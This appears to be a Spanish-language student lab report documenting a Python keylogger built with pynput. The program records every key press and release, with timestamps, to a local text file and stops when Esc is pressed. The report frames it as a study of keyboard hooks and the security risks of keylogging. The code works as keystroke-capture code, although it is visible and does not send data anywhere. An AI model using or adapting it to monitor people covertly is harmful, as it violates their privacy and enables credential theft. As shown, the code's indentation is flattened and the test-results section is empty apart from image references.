


No presiones Esc... todavía
Introducción
En esta actividad se explora el funcionamiento técnico de la captura de eventos de teclado mediante event hooks y funciones callbacks en Python. El objetivo es analizar los mecanismos de entrada de datos, su persistencia local y las implicaciones de ciberseguridad asociadas al monitoreo no autorizado de pulsaciones de teclas (keylogging).
Objetivo
Implementar y documentar un programa basado en hooks de teclado que registre cada evento de pulsación y liberación de teclas, asociándolos de manera temporal con alta precisión y almacenándolos de forma persistente en un archivo local para su posterior análisis.
Código Fuente / Script
A continuación se presenta el código desarrollado utilizando la librería pynput y el módulo datetime para la gestión de registros con timestamp:
import datetime
from pynput.keyboard import Key, Listener
LOG_FILE = "registrodeteclado.txt"
contador_eventos = 1
def formato_evento(accion, key_str):
global contador_eventos
now = datetime.datetime.now()
timestamp = now.strftime("%Y-%m-%d %H:%M:%S.%f")[:-3]
id_evento = f"evento_{contador_eventos:03d}"
contador_eventos += 1
return f"{timestamp} | {accion} | {id_evento} | Tecla: {key_str}\n"
def log_to_file(entrada):
with open(LOG_FILE, "a", encoding="utf-8") as f:
f.write(entrada)
def on_press(key):
try:
key_str = key.char
except AttributeError:
key_str = str(key)
log_entry = formato_evento("PRESS", key_str)
print(log_entry.strip())
log_to_file(log_entry)
def on_release(key):
try:
key_str = key.char
except AttributeError:
key_str = str(key)
log_entry = formato_evento("RELEASE", key_str)
print(log_entry.strip())
log_to_file(log_entry)
if key == Key.esc:
return False
if __name__ == "__main__":
with open(LOG_FILE, "a", encoding="utf-8") as f:
f.write(f"\n--- Inicio de Sesión: {datetime.datetime.now()} ---\n")
with Listener(on_press=on_press, on_release=on_release) as listener:
listener.join()
Informe Detallado
El programa hace uso de la clase Listener para suscribirse a las llamadas del sistema operativo encargadas de los eventos de teclado.
Cada evento detectado activa una función de respuesta (on_press o on_release), la cual realiza tres acciones principales:
- Asociación Temporal y Secuencial: Asigna una marca de tiempo con precisión de milisegundos (
YYYY-MM-DD HH:MM:SS.mmm) y un contador incremental formateado a tres dígitos (evento_001). - Manejo de Excepciones: Diferencia entre teclas alfanuméricas estándar y teclas especiales de sistema (como
Key.escoKey.space). - Persistencia Local: Apertura continua en modo append (
"a") hacia el archivoregistrodeteclado.txt, garantizando que todos los registros permanezcan guardados tras la finalización del hilo principal mediante la teclaEsc.
Pruebas Realizadas y Funcionamiento
A continuación se presentan las evidencias del correcto funcionamiento del script y la persistencia de datos alcanzada:

